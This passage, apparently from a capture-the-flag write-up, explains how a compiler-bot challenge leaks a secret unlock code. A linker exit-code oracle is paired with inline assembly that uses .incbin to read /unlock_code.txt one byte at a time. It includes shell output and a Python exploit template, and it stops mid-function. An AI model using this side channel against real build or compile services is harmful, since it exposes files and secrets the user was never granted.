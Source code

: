 
Compiling this results in a linker error and a return code of 1.

```
root@c3319ea49e1b:/tmp# gcc -Wl,--fatal-warnings -o /dev/null main.c; echo $?;
/usr/bin/ld: error in /tmp/ccFZjJxK.o(.eh_frame); no .eh_frame_hdr table will be created
collect2: error: ld returned 1 exit status
1
root@c3319ea49e1b:/tmp#
```

The actual value of the first character is `3` (51).

```
root@c3319ea49e1b:/tmp# cat /unlock_code.txt
3a487024-b249-4bfb-b6d4-74a7ea143c51
root@c3319ea49e1b:/tmp#
```

We'll modify the C file to reflect this correct guess.

```c
    ".rept 51 - 13\n"
```

Now compiling it results in an error code of 0.

```
root@c3319ea49e1b:/tmp# gcc -Wl,--fatal-warnings -o /dev/null main.c; echo $?;
0
root@c3319ea49e1b:/tmp#
```

This can be exploited to leak the unlock code byte by byte. Functions to implement this byte by
byte exploit is given as follows:

```python
  29   │ # Original exploit technique from https://rpis.ec/blog/hxp-26c3-ctf-compilerbot/
  30   │
  31   │ LEAK_TEMPLATE = '''
  32   │ int main() {
  33   │ __asm__ (
  34   │     ".pushsection .eh_frame\\n"
  35   │
  36   │     ".incbin \\"/unlock_code.txt\\", __OFFSET__, 1\\n"
  37   │     ".rept 3\\n"
  38   │     ".byte 0\\n"
  39   │     ".endr\\n"
  40   │
  41   │     ".long 0x00000000\\n"
  42   │     ".byte 0x01\\n"
  43   │     ".asciz \\"zR\\"\\n"
  44   │     ".byte 0\\n"
  45   │     ".byte 0\\n"
  46   │     ".byte 0\\n"
  47   │     ".byte 0\\n"
  48   │     ".byte 0\\n"
  49   │
  50   │     ".rept __GUESS__ - 13\\n"
  51   │     ".byte 0\\n"
  52   │     ".endr\\n"
  53   │
  54   │     ".popsection\\n"
  55   │ );
  56   │ }
  57   │ '''
  58   │
  59   │
  60   │ def leak_unlock_code(p):
  61   │     '''Leak the unlock code with the bonus method detailed in
```